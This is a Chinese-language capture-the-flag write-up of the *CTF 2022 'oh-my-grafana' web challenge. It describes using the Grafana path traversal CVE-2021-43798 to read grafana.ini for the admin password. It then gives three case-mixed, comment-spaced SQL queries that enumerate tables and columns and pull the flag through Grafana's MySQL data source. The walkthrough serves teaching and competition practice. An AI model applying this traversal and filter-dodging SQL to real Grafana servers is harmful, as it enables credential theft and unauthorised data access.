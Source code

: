 ```yaml
---
title: starctf2022
comments: true
hide: false
date: 2022-04-21 12:54:02
urlname: starctf2022
updated:
password:
tags:
categories: Write-Up
---
```




感觉挺有趣的



# Web：

## oh-my-grafana

上来先搜grafana历史漏洞，果然根据版本号可以找到 [CVE-2021-43798](https://nvd.nist.gov/vuln/detail/CVE-2021-43798) 进行目录穿越读文件。下载现成的 [POC](https://dl.packetstormsecurity.net/2112-exploits/grafana830-traversal.txt) 把插件排除一下可以查出默认的用户名密码。

![img](starctf2022/(null)-20220421125600359.(null))

通过目录穿越读文件，即可以直接找`/etc/grafana/grafana.ini`，里面`admin_password`明文密码

使用用户名密码登录上系统，可以发现在 Data Source 处有 MySQL 数据库。从 Explore 功能里构造 time 写语句即可查出 flag。

![img](starctf2022/(null)-20220421125600439.(null))

```SQL
seLect/**/group_concat(tablE_nAme), 1 as time/**/frOm/**/infOrmation_schEma.tablEs/**/whEre/**/table_schema=databAse()
```

![img](starctf2022/(null)-20220421125559937.(null))

```SQL
seLect/**/group_concat(column_nAme), 1 as time/**/frOm/**/infOrmation_schEma.columns/**/whEre/**/table_schema=databAse()
```

![img](starctf2022/(null))

```SQL
seLect/**/flag, 1 as time/**/frOm/**/fffffflllllllllaaaagggggg
```

其实直接看历史就有`fffffflllllllllaaaagggggg`这个表的查询记录，直接select就行

---